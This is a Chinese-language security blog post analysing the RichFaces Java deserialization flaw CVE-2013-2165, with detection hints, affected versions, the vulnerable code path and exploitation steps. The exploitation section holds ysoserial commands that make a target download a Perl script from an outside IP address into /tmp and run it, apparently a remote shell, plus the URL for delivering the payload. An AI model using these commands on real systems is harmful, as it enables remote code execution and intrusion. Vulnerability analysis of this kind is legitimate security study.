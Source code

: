 ```yaml
---
layout: post
title: RichFaces反序列话漏洞——CVE-2013-2165
date: 2018-08-30 
tag: java
---
```

# 0x00 前言
---
&emsp;&emsp;本来想学二进制来着,java又出了那么多漏洞，身为一个web安全狗，还是学Java web吧，几乎0基础，大牛请跳过。碰巧工作中遇到实例，就尝试简单分析一下这个(很水的一篇文章四处摘抄，就是想立个flag开个头)。
# 0x01 基础详情
在讲述之前先简单介绍一下java反序列化的一些特征。  
黑盒测试:  
1. rO0AB   #数据包中有以base64开头的数据开头含有ro0AB yseriol生成的payload转换而来 cat payload.out | base64 -w 0 > payload.out.b64
![](https://ws3.sinaimg.cn/large/0069RVTdly1fv4fptk2sdj30pa0bstig.jpg)
2. aced 0005   #数据包发送时16进制查看时含有的特殊字符 如果是http数据包含有 sr 等字符
![](https://ws3.sinaimg.cn/large/0069RVTdly1fv4kqos4kcj31au09kn15.jpg)
3. content-type:application/x-serialization 带有序列化头说明了它是是序列化数据
![](https://ws4.sinaimg.cn/large/0069RVTdly1fv4k2j9n6bj31ku0fa43h.jpg)  
4. org.apache.commons.collections.functors.InvokerTransformer and gzip header
![](https://ws2.sinaimg.cn/large/006tNbRwly1fvh4aiq4fyj31kw0q9khe.jpg)
白盒测试：  
writeObject 序列化是用于将对象转换成二进制串存储  
readObjec 将二进制串转换成对象  

再来看下RichFaces任意java反序列化漏洞  
![](https://ws2.sinaimg.cn/large/0069RVTdly1furtuu21mkj310003i75q.jpg)
影响版本：RichFaces 3.x ≤ 3.3.3 and 4.x ≤ 4.3.2
修复版本：RichFaces 3.3.4 and 4.3.3 
```
RIchFaces存在的漏洞的和利用方式    #因RIchFaces16年不再维护，所以用最新的rf-143应该可以打下
RichFaces 3
3.1.0 ≤ 3.3.3: CVE-2013-2165
3.1.0 ≤ 3.3.4: RF-14310
RichFaces 4
4.0.0 ≤ 4.3.2: CVE-2013-2165
4.0.0 ≤ 4.5.4: CVE-2015-0279
4.5.3 ≤ 4.5.17: RF-14309
```
# 0x02 漏洞分析
本地环境 mac + idea2018.01 + tomcat7  
[angryseam.war](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2016/angry%20seam/angryseam.war)    
[相关jar包](http://seamframework.org/Seam2/Downloads.html) #导入相应的jar包  
我们先简单看下漏洞详情 
![](https://ws2.sinaimg.cn/large/0069RVTdly1furuh6w3xnj31400guage.jpg)
因为我使用的是RichFaces3.x，所以针对3.x来说，在请求资源的时候，会进入ResourceBuilderImpl.getResourceDataForKey(String)来进行处理，如果请求资源以/DATA或者/DATB为开头，数据会被ResourceBuilderImpl.decrypt(byte)解密，然后进行相关反序列化。
在org.ajax4jsf.resource.ResourceBuilderImpl中232行getResourceDataForKey函数中。
将传递过来的key解密，后续传入readobject造成反序列化造成命令执行。
![](https://ws2.sinaimg.cn/large/0069RVTdly1furv6pwvwxj31kw0qn4di.jpg)
richfaces库默认处理a4j开头的路径资源然后将/a4j/g/3_3_3.Finalorg/版本信息移除
```
/a4j/g/3_3_3.Finalorg/richfaces/renderkit/html/scripts/skinning.js/DATA/xxxx 
```
然会将资源传入getResourceDataForKey并将DATA后面的解码
构造payload时 我们只需要调用该方法下面的encrypt即可
![](https://ws2.sinaimg.cn/large/0069RVTdly1furzrgzv3sj31kw0ryqdv.jpg)
具体poc相关代码如下
![](https://ws3.sinaimg.cn/large/0069RVTdly1furzt2vofzj31kw0kytkn.jpg)
利用方法:
```
先用ysoserial生成相关payload
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections5 "wget http://74.121.151.89/123344/back.pl -P /tmp/" > payload.bin
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections5 "perl /tmp/back.pl" > p.bin
然后执行hello.java生成加密后payload，再访问即可
http://localhost:8011/seam/a4j/g/3_3_3.Finalorg/richfaces/renderkit/html/scripts/skinning.js/DATA/your-payload
```
# RF-14310: Arbitrary EL Evaluation  
容我先发出来，先学一波java，后续补充。
其他参考链接如下：
``` 
http://www.polaris-lab.com/index.php/archives/567/
https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
https://github.com/federicodotta/Java-Deserialization-Scanner/releases
http://vnprogramming.com/index.php/2016/10/10/web500-hitconctf-2016-and-exploit-cve-2013-2165/
https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html
https://bl4ck.in/vulnerability/analysis/2018/03/28/Attack-Seam-Framework.html
```
#
转载请注明：[whynot](https://notwhy.github.io/) » [code-audit](https://notwhy.gitbooks.io//2018/08/RichFaces反序列话漏洞——CVE-2013-2165/)  



